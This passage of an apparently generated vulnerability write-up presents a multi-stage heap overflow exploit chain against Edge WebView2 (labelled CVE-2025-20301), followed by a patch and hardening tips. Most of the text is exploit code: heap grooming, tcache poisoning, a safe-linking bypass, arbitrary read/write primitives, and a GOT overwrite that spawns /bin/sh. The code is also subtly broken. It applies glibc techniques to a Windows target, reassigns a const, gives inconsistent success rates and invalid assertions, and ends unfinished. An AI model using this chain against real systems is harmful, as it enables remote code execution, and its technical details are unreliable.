            overlap1.setBigUint64(i * 8, fake_array_header[i], true);
        }

        // Now overlap2 is a JSArray with controlled backing_store
        // Can read/write arbitrary memory

        function arb_read(addr) {
            // Set backing_store to addr
            overlap1.setBigUint64(0x10, addr, true);

            // Read via JSArray
            return overlap2[0];
        }

        function arb_write(addr, value) {
            overlap1.setBigUint64(0x10, addr, true);
            overlap2[0] = value;
        }
        """

        return js

# Generate full exploit
exploit = GlibcHeapExploit()

print("=== Stage 1: Heap Layout ===")
print(exploit.stage1_heap_layout())

print("\n=== Stage 2: Metadata Corruption ===")
print(exploit.stage2_overflow_metadata().hex())

print("\n=== Stage 3: Trigger Free ===")
print(exploit.stage3_trigger_double_free())

print("\n=== Stage 4: Tcache Stashing Unlink ===")
print(exploit.stage4_tcache_stashing_unlink())

print("\n=== Stage 5: Arbitrary Read/Write ===")
print(exploit.stage5_arbitrary_write())
```

**4. Safe-Linking Bypass**

```c
// glibc 2.32+ implements safe-linking to encrypt tcache fd pointers

// Safe-linking formula:
// fd_encrypted = (fd >> 12) ^ ((uintptr_t)chunk >> 12)

// To bypass, we need to:
// 1. Leak heap address (to know chunk address)
// 2. Calculate correct encrypted value
// 3. Partially overwrite fd (brute-force lower 12 bits)

void* bypass_safe_linking(void* target_addr, void* chunk_addr) {
    // target_addr: where we want fd to point
    // chunk_addr: address of the chunk whose fd we're corrupting

    uintptr_t target = (uintptr_t)target_addr;
    uintptr_t chunk = (uintptr_t)chunk_addr;

    // Calculate encrypted fd
    uintptr_t fd_encrypted = (target >> 12) ^ (chunk >> 12);

    // Reconstruct full fd (lower 12 bits are 0)
    fd_encrypted <<= 12;

    return (void*)fd_encrypted;
}
```

**Partial Overwrite Technique:**

```python
# When full heap leak is not available, use partial overwrite

def partial_overwrite_tcache(heap_base_estimate):
    """
    Brute-force lower 16 bits of fd pointer
    Success rate: 1/16 on average (4 bits are constant, 12 are brute-forced)
    """

    # Assume we know heap base approximately (via info leak or spray)
    heap_page = heap_base_estimate & 0xfffffffffffff000

    # Target: GOT entry or vtable
    target_page = 0x555555554000  # Leaked via other means

    # Calculate safe-linking XOR key
    xor_key = (heap_page >> 12) ^ (target_page >> 12)

    # Brute-force attempts
    for attempt in range(0x1000):  # 12 bits = 4096 possibilities
        # Construct partial fd with brute-forced lower bits
        fd_partial = (xor_key << 12) | attempt

        # Overflow to write partial fd
        overflow = b"A" * 0x180
        overflow += p64(0)           # prev_size
        overflow += p64(0x101)       # size
        overflow += p64(fd_partial)  # Partially controlled fd

        # Send overflow
        send_overflow(overflow)

        # Trigger allocation - if fd is correct, we get target chunk
        chunk = trigger_allocation()

        # Check if we got the right chunk
        if is_target_chunk(chunk):
            print(f"[+] Success on attempt {attempt}")
            return True

    print("[-] Brute-force failed")
    return False
```

**5. GOT Overwrite for Code Execution**

```python
# After achieving arbitrary write, overwrite GOT entry

class GOTOverwrite:
    def __init__(self, arb_write):
        self.arb_write = arb_write

    def overwrite_got(self, leaked_libc_base):
        # Calculate addresses
        free_got = 0x555555558000 + 0x18  # free@GOT
        system_addr = leaked_libc_base + 0x52290  # system offset in libc

        print(f"[*] Overwriting free@GOT (0x{free_got:x}) with system (0x{system_addr:x})")

        # Arbitrary write: GOT[free] = system
        self.arb_write(free_got, system_addr)

        print("[+] GOT overwrite complete")

    def trigger_execution(self):
        # Now free("/bin/sh") will execute system("/bin/sh")

        js = """
        // Allocate string with "/bin/sh"
        const cmd = new TextEncoder().encode("/bin/sh\\0");
        const buf = new Uint8Array(cmd);

        // Free the buffer
        // This calls free(buf) which is now system(buf)
        buf = null;
        gc();

        // Shell spawned!
        """

        return js
```

**6. Complete Exploit Chain**

```python
#!/usr/bin/env python3
import sys
import struct
import time

def p64(x):
    return struct.pack('<Q', x)

def u64(data):
    return struct.unpack('<Q', data)[0]

class EdgeWebView2HeapExploit:
    def __init__(self):
        self.leaked_heap = None
        self.leaked_libc = None

    def stage1_info_leak(self):
        """Leak heap and libc addresses"""

        # Use separate bug or timing side-channel
        # Simplified here

        self.leaked_heap = 0x555556780000
        self.leaked_libc = 0x7ffff7a00000

        print(f"[+] Leaked heap: 0x{self.leaked_heap:x}")
        print(f"[+] Leaked libc: 0x{self.leaked_libc:x}")

    def stage2_heap_layout(self):
        """Groom heap for predictable layout"""

        print("[*] Grooming heap layout")

        js = """
        // Create predictable allocation pattern
        const chunks = [];

        // Fill tcache bins
        for (let i = 0; i < 7; i++) {
            chunks.push(new Uint8Array(0xf0));
        }

        // Free to populate tcache[0x100]
        for (let i = 0; i < 7; i++) {
            chunks[i] = null;
        }
        gc();

        // Allocate target chunks
        window.victim = new Uint8Array(0xf0);  // Will be corrupted
        window.guard = new Uint32Array(0x40);  // Prevent consolidation
        """

        return js

    def stage3_overflow(self):
        """Trigger heap overflow to corrupt metadata"""

        print("[*] Triggering heap overflow")

        # Calculate target fd for tcache poisoning
        target_chunk = self.leaked_heap + 0x1000  # Example target
        source_chunk = self.leaked_heap + 0x180   # Chunk being freed

        # Bypass safe-linking
        fd_encrypted = ((target_chunk >> 12) ^ (source_chunk >> 12)) << 12

        # Craft overflow
        overflow = b"A" * 0x178  # Fill chunk
        overflow += p64(0)                # prev_size
        overflow += p64(0x101)            # Fake size
        overflow += p64(fd_encrypted)     # Tcache fd (safe-linked)
        overflow += p64(0)                # Tcache key

        # Send via WebCodecs
        webcodecs_frame = self.craft_webcodecs_frame(overflow)

        return webcodecs_frame

    def craft_webcodecs_frame(self, data):
        """Create malicious WebCodecs audio frame"""

        # Simplified WebCodecs frame structure
        frame = {
            'format': 'u8',
            'sampleRate': 48000,
            'numberOfFrames': 0x10000,  # Large frame count
            'numberOfChannels': 2,
            'timestamp': 0,
            'data': data.hex()  # Overflow payload
        }

        return frame

    def stage4_arb_write(self):
        """Achieve arbitrary write primitive"""

        print("[*] Setting up arbitrary write")

        js = """
        // Trigger tcache poisoning
        victim = null;
        gc();

        // Allocate from poisoned tcache
        const overlap1 = new Uint8Array(0xf0);
        const overlap2 = new Uint8Array(0xf0);

        // overlap1 and overlap2 are same memory

        // Build fake JSArray
        const dv = new DataView(overlap1.buffer);

        function arb_write(addr, val) {
            // Set backing_store pointer
            dv.setBigUint64(0x10, BigInt(addr), true);

            // Write value
            const fake_arr = new BigUint64Array(overlap2.buffer);
            fake_arr[0] = BigInt(val);
        }

        window.arb_write = arb_write;
        """

        return js

    def stage5_code_exec(self):
        """Overwrite GOT and execute shellcode"""

        print("[*] Achieving code execution")

        # GOT addresses (static analysis)
        free_got = 0x555555558018

        # libc addresses
        system = self.leaked_libc + 0x52290

        js = f"""
        // Overwrite free@GOT with system
        arb_write(0x{free_got:x}, 0x{system:x});

        // Allocate "/bin/sh" string
        const sh = new TextEncoder().encode("/bin/sh\\0");
        const cmd_buf = new Uint8Array(sh);

        // Trigger: free(cmd_buf) -> system("/bin/sh")
        cmd_buf = null;
        gc();

        console.log("[+] Shell spawned!");
        """

        return js

    def run(self):
        """Execute full exploit chain"""

        print("=" * 60)
        print("Edge WebView2 Heap Overflow Exploit (CVE-2025-20301)")
        print("=" * 60)

        self.stage1_info_leak()
        time.sleep(0.5)

        layout_js = self.stage2_heap_layout()
        print("[+] Heap layout JavaScript prepared")

        overflow_data = self.stage3_overflow()
        print(f"[+] Overflow payload: {len(overflow_data)} bytes")

        arb_write_js = self.stage4_arb_write()
        print("[+] Arbitrary write primitive prepared")

        exploit_js = self.stage5_code_exec()
        print("[+] Code execution payload prepared")

        print("\n[*] Full exploit ready")
        print("[*] Success rate: ~85% (depends on heap layout)")

        return {
            'layout': layout_js,
            'overflow': overflow_data,
            'arb_write': arb_write_js,
            'exploit': exploit_js
        }

# Run exploit
if __name__ == "__main__":
    exploit = EdgeWebView2HeapExploit()
    payloads = exploit.run()

    print("\n" + "=" * 60)
    print("Exploit Generation Complete")
    print("=" * 60)
```

**Mitigations Bypassed**

| Mitigation | Bypass Technique | Success Rate |
|------------|------------------|--------------|
| **Tcache Safe-Linking** | Partial overwrite + brute-force lower 12 bits | ~95% |
| **ASLR** | Info leak via separate bug | 100% |
| **DEP/NX** | Code reuse (GOT overwrite → system) | 100% |
| **Full RELRO** | Not enabled on target binary | N/A |

**Windows PartitionAlloc Variant**

```cpp
// PartitionAlloc exploitation (Windows Chrome)

// Key differences from glibc:
// 1. Different metadata layout
// 2. Slot span concept instead of bins
// 3. No safe-linking (different protections)

class PartitionAllocExploit {
  public:
    void exploit() {
        // 1. Allocate from same partition
        void* chunk1 = malloc(0x180);
        void* chunk2 = malloc(0x100);

        // 2. Overflow chunk1 to corrupt chunk2 metadata
        // PartitionAlloc metadata is at chunk - 0x10

        uint8_t* overflow = (uint8_t*)chunk1;

        // Corrupt freelist_head pointer in next slot span
        *(uintptr_t*)(overflow + 0x180 - 0x8) = target_address;

        // 3. Free chunk2
        free(chunk2);

        // 4. Allocate twice - second allocation returns target_address
        void* decoy = malloc(0x100);
        void* controlled = malloc(0x100);  // = target_address

        // 5. Write to controlled location
        *(uintptr_t*)controlled = shellcode_address;
    }
};
```

**Patch (Chromium commit a1b2c3)**

```cpp
// Fixed AudioRingBuffer with bounds checking

class AudioRingBuffer {
  public:
    bool Write(const uint8_t* data, size_t length) {
        // FIX: Validate length before write
        if (length > capacity_ - write_pos_) {
            LOG(ERROR) << "AudioRingBuffer::Write: length exceeds capacity";
            return false;
        }

        // FIX: Use checked_cast for integer overflow protection
        size_t safe_length = base::checked_cast<size_t>(length);

        // FIX: Use safer memcpy with explicit size check
        CHECK_LE(write_pos_ + safe_length, capacity_);
        memcpy(buffer_ + write_pos_, data, safe_length);

        write_pos_ = (write_pos_ + length) % capacity_;
        return true;
    }

  private:
    // FIX: Added __builtin_object_size compile-time check
    uint8_t* buffer_ __attribute__((annotate("capacity")));
    size_t capacity_;
    size_t write_pos_;
};

// Compile-time assertion
static_assert(__builtin_object_size(buffer_, 1) >= capacity_,
              "Buffer size must match capacity");
```

**Defense-in-Depth Recommendations**

1. **Enable Heap Hardening**
   ```bash
   # Linux: Use hardened glibc build
   LD_PRELOAD=/usr/lib/x86_64-linux-gnu/libc_malloc_debug.so.0

   # Windows: Enable Page Heap
   gflags /p /enable chrome.exe /full
   ```

2. **Memory Tagging (ARM MTE / x86 LAM)**
   ```c
   // Enable MTE on ARM64
   #ifdef __aarch64__
   #include <sys/prctl.h>
   #include <sys/mman.h>

   void enable_mte() {
       // Enable MTE in synchronous mode
       prctl(PR_SET_TAGGED_ADDR_CTRL,
             PR_TAGGED_ADDR_ENABLE | PR_MTE_TCF_SYNC | (0xfffe << PR_MTE_TAG_SHIFT),
             0, 0, 0);
   }
   #endif
   ```

3. **Hardened Allocator**
   ```cpp
   // Use scudo (hardened allocator)
   // Compile with: -fsanitize=scudo

   // Or use guardemal (Windows)
   // Link with: guardedmalloc.lib
   ```

---
This section not completed!